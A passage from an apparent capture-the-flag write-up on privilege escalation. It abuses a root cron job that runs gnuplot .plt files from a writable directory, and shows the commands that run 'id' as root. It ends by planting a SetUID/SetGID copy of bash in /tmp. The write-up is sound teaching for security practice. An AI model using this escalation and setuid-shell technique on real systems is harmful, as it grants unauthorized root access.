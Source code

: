 The first four lines are just CRON starting. What’s interesting comes next - it is calling `/opt/gnuplot/getdata.sh`, which is using `find` to get all `.plt` files from `/opt/gnuplot` and passes them to `gnuplot`!

### Execution via gnuplot

#### POC

I can write to `/opt/gnuplot` and any `.plt` file in that directory will get run each minute. In theory, if I can run a script from a `.plt` (which it looks like may be happening in the two files in there now), then I should be able to get arbitrary code execution.

To test this, I’ll write a simple `.plt` file using the `system` command, starting with something based on the example in [these docs](http://www.bersch.net/gnuplot-doc/system.html):

```
output = system("id")
print(output)

```

I’ll want to write the results somewhere. The [docs](http://www.bersch.net/gnuplot-doc/print.html) for `print` say that the output file can be set with `set print`:

```
set print "/dev/shm/0xdf-output"
output = system("id")
print(output)

```

I’ll write that to a `.plt` file (using `cat` and `<< EOF` to write until it gets a line with `EOF`):

```
vdaisley@topology:/opt$ cat > /opt/gnuplot/0xdf.plt << EOF
> set print "/dev/shm/0xdf-output"
> output = system("id")
> print(output)
> EOF

```

When the next minute rolls over, the output file is there:

```
vdaisley@topology:/opt$ cat /dev/shm/0xdf-output
uid=0(root) gid=0(root) groups=0(root)

```

It executed as root.

#### Shell

I’ll update my `.plt` file to create a copy of `bash` owned by root with the SetUID/SetGID bits on:

```
vdaisley@topology:/opt$ cat > /opt/gnuplot/0xdf.plt << EOF
> system("cp /bin/bash /tmp/0xdf")
> system("chmod 6777 /tmp/0xdf")
> EOF

```

